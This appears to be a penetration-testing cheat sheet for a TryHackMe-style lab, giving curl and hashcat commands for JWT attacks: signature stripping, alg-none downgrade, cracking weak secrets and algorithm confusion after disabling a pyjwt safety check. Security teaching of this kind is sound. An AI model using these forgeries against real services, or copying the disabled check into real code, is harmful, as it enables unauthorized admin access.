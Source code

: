 # JSON Web Tokens JWT Penetration Testing

## Tools: Burpsuite, cURL, https://jwt.io/ (JWT Decoder and editor), Cyberchef https://gchq.github.io/CyberChef/

## Attacks:

### 1) Sensitive Information Disclosure

#### Authenticate with a user and grab the JWT token from that user

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 
#### Go to jwt.io to decode the token and check the values inside the claim portion of the token. We may find sensitive information like internal resources, etc.

### 2) Signature is not verified

#### Grab the JWT token

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 

    curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user (Authenticate with the JWT token)

#### Go to jwt.io and try to verify the user WITHOUT the signature by removing the signature part leaving ONLY the dot (.).

#### Try to authenticate with the SIGNATURELESS token again to check if you can verify the user even without the signature.

### Modify any values we may find in the token. Example:

#### Change the admin value from 0 to 1, then verify as admin with the newly modified JWT token.

    curl -H 'Authorization: Bearer MODIFIED_SIGNATURELESS_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin


### 3) Signature algorithm downgrade to NONE


#### Grab the JWT Token
    
    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 

#### Authenticate with the JWT Token

    curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user 

#### Go to jwt.io to modify the values inside the claim portion of the token: Admin from 0 to 1 for example.

    curl -H 'Authorization: Bearer MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin

#### If the response of the server contains: "Signature verification failed" we can go for the downgrade attack to None algorithm.

#### Go to cyberchef, then take the HEADER part of the JWT token and use the JWT decode recipe to get the plain text of the JWT header.

#### Grab the plain text JWT header, change the Alg to None and encode it with base64.

#### After this, put the base64 encoded header we just made at the BEGINNING of our modified JWT token to replace the previous header with the None algorithm. REMOVE THE EQUAL SIGN FROM THE BASE64 HEADER TO NOT GET ANY COMPLAINTS FROM THE SERVER RESPONSE!

    curl -H 'Authorization: Bearer ALG_NONE_HEADER_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin 

### 4) Weak Symmetric Secrets

#### Grab JWT Token

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 

#### Save the retrieved JWT in a text file

    nano jwt.txt 

#### Download a wordlist for JWT secrets

    wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list 

#### Use hashcat to crack the secret of the JWT token so that we can forge our own JWT token to gain access

    hashcat -m 16500 -a 0 jwt.txt /usr/share/wordlists/jwt.secrets.list 

### Then go to jwt.io and do the following:

### Add the secret we just cracked down to the signature part where it tells us to enter our secret we just discovered.

### Then, modify any values we may find to gain admin access. Example: admin from 0 to 1.

### Then use this newly forged JWT token to authenticate:

    curl -H 'Authorization: Bearer CRACKED_SECRET_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin 

### 5) Signature Algorithm Confusion

#### Grab the JWT Token with the public key in this example

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 

### Go to jwt.io to make the changes or use the script provided from THM that we are going to use. Script will be located in scripts folder in here.

### Add the public key to the script and make the modifications: admin from 0 to 1 for example.
    
    pip3 install pyjwt (Import the library to interact with JWT tokens using python)

### Before running the script, edit the file /usr/lib/python3/dist-packages/jwt/algorithms.py and comment out the specific code snippet:

    # if is_pem_format(key_bytes) or is_ssh_key(key_bytes):
    #    raise InvalidKeyError(
         #       "The specified key is an asymmetric key or x509 certificate and"
         #       " should not be used as an HMAC secret."
          #  )

#### Run the script to generate our forged JWT token

    python3 signature-confusion-JWT.py 

#### Gain access with our modified JWT token

    curl -H 'Authorization: Bearer MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin 
